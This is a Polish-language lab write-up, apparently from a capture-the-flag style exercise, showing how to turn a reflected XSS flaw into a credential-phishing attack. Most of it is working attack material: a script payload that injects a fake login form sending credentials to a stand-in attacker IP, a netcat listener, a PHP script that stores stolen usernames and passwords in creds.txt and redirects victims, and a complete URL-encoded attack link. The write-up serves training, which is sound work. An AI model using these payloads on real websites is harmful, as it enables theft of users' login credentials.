






# **XSS - Phishing (PL)**

Autor: `adi7312`

## **Odkrycie podatności XSS**

W pierwszej kolejności musimy zidentyfikować podatność, poniższy payload wystarczył do stwierdzenia że XSS faktycznie występuje.

```html
'><script>alert(1)</script>
```





## **Forms injection**

Teraz zajmiemy się wstrzyknięciem fałszych formularzy logowania. Poniżej znajduje się przykładowy formularz:

```html
<h3>Please login to continue</h3>
<form action=http://IP_ATAKUJACEGO>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
W celu zapisania tego formularza na stronie należy użyć `document.write()`. Ostatecznie payload powinien wyglądać następująco:

```html
'><script>document.write('<h3>Please login to continue</h3>
<form action=http://IP_ATAKUJACEGO>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>')</script>
```



Pomyślnie wstrzykneliśmy fałszywe formularze.

## **Czyszczenie strony**
   
Póki co ofiara pewnie nie nabrałaby się na taką stronę jaką mamy teraz. Musimy pozbyć się Image URL i nawiasu znacznika. W celu pozbycia się Image URL należy skorzystać z `document.getElementById().remove()`, żeby dowiedzieć się jakie id ma ten element należy skorzystać z Developer Tools. Jak widzimy id to `urlform`





Żeby pozbyć się znacznika na końcu payloadu musimy dać otwierający komentarz `<!--`.


Ostatecznie nasz payload powinien wyglądać tak:
```html
'><script>document.write('<h3>Please login to continue</h3>
<form action=http://IP_ATAKUJACEGO:PORT>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>'); document.getElementById('urlform').remove()</script><!--

```

## **Kradzież danych**

Ustawiamy netcata żeby nasłuchiwał na porcie 1234:
```
sudo nc -nlvp 1234
```

Teraz możemy przetestować działanie naszej fałszywej strony wpisując w formluarzu jakieś dane testowe, np. test:test. Wówczas w netcat zauważymy output:



W parametrze GET dokładnie widać wpisane wartości. Jednak netcat nie do końca poprawnie obsługuje żądania HTTP, ofiara może dostać błąd `Unable to connect`, co może być podejrzane, możemy więc napisać prosty skrypt w PHP który spowoduje później przekierowanie ofiary na dobrą stronę. W tym celu należy wykonać następujące polecenia:

```
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php
```
W pliku index.php wpisujemy następująca zawartość przy czym pamiętamy o wpisaniu poprawnego IP.

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Następnie uruchamiamy serwer php.
```
sudo php -S 0.0.0.0:PORT
```

Wchodzimy teraz na stronę /phishing/send.php i wrzucamy tam nasz cały payload.
```
http://SITE_IP/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E+%3Cform+action%3Dhttp%3A%2F%2FATTACK_IP%3APORT%3E+++++%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E+++++%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E+++++%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E+%3C%2Fform%3E%27)%3B+document.getElementById(%27urlform%27).remove()%3C%2Fscript%3E%3C!--
```

Po wysłaniu payloada, w folderze /tmp/tmpserver powinien utworzyć sie plik z danymi. 





W celu otrzymania flagi pozostało nam jedynie zalogować się na /phishing/login.php


